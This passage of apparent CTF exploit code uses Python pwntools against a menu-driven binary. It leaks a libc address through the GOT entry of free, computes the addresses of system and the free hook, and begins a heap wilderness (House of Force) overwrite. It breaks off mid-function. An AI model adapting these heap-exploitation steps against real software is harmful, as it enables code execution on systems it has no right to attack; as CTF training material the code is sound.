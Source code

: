 ```

#This function will grab us a leak to libc, and calculate the address for system and the free hook
def leakLibcadr():
	#Add a new ingredient, give it a name, price, calories, then save and exit
	target.sendline('a')
	recv()
	target.sendline('n')
	recv()
	target.sendline('g')
	target.sendline('7539')
	recv()
	target.sendline('s')
	target.sendline('2')
	recv()
	target.sendline('p')
	target.sendline('1')
	recv()
	target.sendline('e')
	recv()
	target.sendline('q')
	recv()

	#Go into create recipe menu, use the isntructions write `i` to write over the ingredient with the got address of Free
	target.sendline('c')
	recvc()
	target.sendline('i')
	target.sendline('0'*12 + p32(gotFree) + p32(zero))
	recvc()
	target.sendline('q')
	recv()

	#Print the infoleak and parse it out
	target.sendline('l')
	recvc()
	for i in xrange(9):
		recvd()
	target.recvline()
	libcleak = target.recvline()
	libcleak = ctypes.c_uint32(int(libcleak.replace("calories: ", "")))
	libcleak = libcleak.value
	
	#Calculate the addresses for system and the freehook, print all three addresses
	global sysadr
	sysadr = libcleak - 0x37d60
	global freehook
	freehook = libcleak + 0x144af0
	log.info("Address of free: " + hex(libcleak))
	log.info("Address of system: " + hex(sysadr))
	log.info("Address of free hook: " + hex(freehook))

#This function will overwrite the value that specifies how much of the heap is left (overwriteWilderness) with 0xffffffff so we can use malloc/calloc to allocate space outside of the heap
def overwriteWilderness():

	#This will allow us to start with a fresh new heap, so it will make the next part easier
	refresh_heap(0x100)
	
	#Create a new stalepointer, which will be used later 
	target.sendline('c')
	recvc()
	target.sendline('n')
	recvc()
```